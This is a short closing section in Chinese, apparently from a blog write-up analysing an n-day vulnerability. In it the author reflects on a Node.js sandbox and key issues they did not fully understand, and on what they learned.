

# 0x03 小结

还有一个nodejs的沙盒，但是不是很明白emm，密钥等等的问题，这次就这个NDAY也学了很多，虽然分析的很含糊，不过还是有所收获的
